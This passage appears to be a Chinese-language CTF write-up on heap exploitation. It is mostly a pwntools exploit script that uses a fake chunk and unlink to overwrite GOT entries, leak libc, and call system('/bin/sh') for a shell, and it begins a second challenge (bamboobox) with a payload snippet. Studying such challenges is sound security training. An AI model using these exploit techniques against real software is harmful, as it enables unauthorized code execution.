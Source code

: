 ```python
    r.recvuntil("OK\n")
target = 0x602140 + 0x10 #global[2]
fd = target - 24
bk = target - 16

add(0x20)#1
add(0x30)#2
add(0x80)#3
add(0x30)#4
p1=p64(0)#prev_size
p1+=p64(0x30)#fake chunk_size
p1+=p64(fd)+p64(bk)
p1+='a'*0x10#junk code
p1+=p64(0x30)#prev_size
p1+=p64(0x90)#fake chunk_size

edit(2,p1)
free(3)#unlink
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']
#atoi_got = elf.got['atoi']
p2 = 'b'*0x10 + p64(free_got)+p64(puts_got)
edit(2, p2) #target-0x8

p3 = p64(puts_plt)
edit(1, p3) #global[1]
free(2)     #chu fa

leak = u64(r.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('leak:'+hex(leak))
base=leak-0x06f6a0
sys=base+0x0453a0
binsh=base+0x18ce17

edit(1,p64(sys))
edit(4,'/bin/sh\x00')
free(4)
r.interactive()
```

## 2.hitcontraining_bamboobox(堆溢出+unlink)

QWQ和上面一样啦

不过这个给了show函数咋们就不用构造put了

直接用show打印就可以泄露libc 啦

不过这里我们需要注意一点，也是刚才没注意到的

```python
payload = p64(0) * 2
payload += p64(0x40) + p64(free_got)
edit(0,len(payload),payload)
```

